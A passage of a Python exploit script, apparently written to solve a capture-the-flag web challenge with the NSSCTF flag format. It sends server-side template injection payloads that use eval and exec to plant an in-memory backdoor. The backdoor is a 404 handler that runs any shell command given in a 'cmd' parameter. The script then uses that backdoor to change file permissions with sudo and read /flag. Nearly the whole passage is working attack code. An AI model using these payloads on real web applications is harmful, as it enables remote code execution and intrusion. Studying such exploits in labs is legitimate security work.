    res = requests.get(f"{url}shellMe?username={payload}")
    return res.text

def get_flag(url, payload):
    res = requests.get(f"{url}123456?cmd={payload}")
    if "NSSCTF{" in res.text:
        match = re.search(r'NSSCTF\{.*?\}', res.text)
        if match:
            flag = match.group(0)
            return flag
def exp():
    payload1 = """{lipsum.__globals__['__builtins__']['eval']
("sys.modules['app'].app.add_exception_handler(404,lambda request,
exc:sys.modules['app'].app.__init__.__globals__['JSONResponse'](content=
{'message':__import__('os').popen(request.query_params.get('cmd') or
'whoami').read()}))")}"""
    get_shell(url, payload1)
    time.sleep(1)

    payload2 = """{lipsum.__globals__['__builtins__']['exec']
("app=sys.modules['app'].app;app.middleware_stack=app.build_middleware_stack()")}
"""
    get_shell(url, payload2)
    time.sleep(1)
    
    payload3 = "sudo chmod 6777 /flag"
    get_flag(url, payload3)
    
    payload4 = "tac /flag"
    flag = get_flag(url, payload4)
    return flag
if __name__ == '__main__':
    flag = exp()
    print(flag)
```
